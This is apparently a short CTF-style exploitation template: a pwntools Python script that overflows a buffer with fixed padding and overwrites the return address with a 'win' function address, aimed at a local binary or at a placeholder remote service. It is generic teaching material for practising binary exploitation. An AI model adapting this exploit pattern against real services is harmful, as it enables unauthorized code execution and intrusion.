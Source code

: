 #### Exploitation Pattern
```python
# File: buffer_overflow_template.py
#!/usr/bin/env python3

from pwn import *

# Configuration
binary_path = "./vulnerable_binary"
host = "target.ctf.com"
port = 1337

# Set context for target architecture
context.arch = 'amd64'
context.log_level = 'info'

def exploit_local():
    """Exploit local binary"""
    p = process(binary_path)
    return exploit_common(p)

def exploit_remote():
    """Exploit remote service"""
    p = remote(host, port)
    return exploit_common(p)

def exploit_common(p):
    """Common exploitation logic"""
    # Wait for prompt
    p.recvuntil(b"Enter name: ")
    
    # Craft payload
    offset = 40  # Found through analysis
    target_function = 0x401234  # Address of win function
    
    payload = b'A' * offset
    payload += p64(target_function)
    
    # Send payload
    log.info("Sending payload...")
    p.sendline(payload)
    
    # Interact with shell/response
    p.interactive()

if __name__ == "__main__":
    # Uncomment appropriate line:
    exploit_local()
    # exploit_remote()
```
